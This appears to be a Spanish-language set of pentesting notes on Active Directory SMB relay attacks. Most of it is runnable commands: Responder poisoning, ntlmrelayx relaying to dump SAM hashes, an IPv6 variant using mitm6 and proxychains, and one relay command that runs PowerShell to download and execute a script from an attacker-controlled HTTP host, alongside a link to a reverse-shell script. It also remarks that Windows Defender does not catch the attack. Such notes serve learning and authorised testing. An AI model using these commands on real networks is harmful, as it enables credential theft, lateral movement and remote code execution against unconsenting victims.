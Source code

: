 # Qué es un SMB Relay?

- En vez de crackear hashes obtenidos con el Repsonder, podemos pasar esos hashes a alguna máquina específica para ganar acceso.
- Es necesario que el SMB no esté firmado para que no se de validado la legitimdad del origen.
- Las credenciales que se le pasen a un equipo deben ser de un Administrador del mismo.
- Algo a tener en cuenta es que el Windows defender no lo detecta por lo que se puede efectuar el ataque aunque esté activo.

# Explicación gráfica del vector de ataque

[Ver la imagen](/Apuntes-AD/Images/7.md)

# Como ver si el smb está fimado

```
crackmapexec smb <segmento_red>
```

[Ver Ejemplo](/Apuntes-AD/Images/8.md)


# Comprobar si tus credenciales son privilegiadas sobre un equipo

```
crackmapexec smb <target> -u 'USUARIO' -p 'CONTRASEÑA'
```
[Ver Ejemplo](/Apuntes-AD/Images/9.md)


# Configurar Responder para SMB Relay
HTTP y SMB deben estar en Off en la configuración del Responder

```
sudo nano /usr/share/responder/Responder.conf
```
<img src="https://i.imgur.com/XypgqGB.png" />

# Efectuar un SMB Relay por IPv4
El Responder debe estar activo envenenando el tráfico de la red,
```
python /usr/share/responder.py -I tun0 -rdw
```
```
ntlmrelayx.py -tf <targets.txt> -smb2support
```
[Ver Ejemplo de dumpeo de SAM](/Apuntes-AD/Images/10.md)

# Ejecutar comandos mediante un SMB Relay por IPv4
```
ntlmrelayx.py -tf <targets.txt> -smb2support -c "powershell IEX(New-Object Net.WebClient).downloadString('http://192.168.0.0:8000/PS.ps1')"
```
[Descargar shell de Nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

# Ejecutar comandos mediante un SMB Relay por IPv6
Primero envenenamos el dominio con `mitm6` para luego entrar en una sesión interactiva con `ntlmrelayx` y mediante el comando `socks` podremos ver las conexiones y el `AdminStatus` de los usuarios. En el caso de obtener un usuario con `AdminStatus True` podremos  añadir en la sección `[ProxyList]` de proxychains `socks4 127.0.0.1 1080`
y luego ejecutar cme con proxychains y dumpear la SAM del equipo sin saber la contraseña.
```
mitm6 -d <dominio>
```
```
ntlmrelayx.py -6 -wh <ip_atacante> -t smb://<ip_victima> -socks -debug -smb2support
```
```
proxychains cme smb <ip_victima> -u 'usuario' -p 'daigual' -d 'NombreDelDominio' --sam 2>/dev/null
```

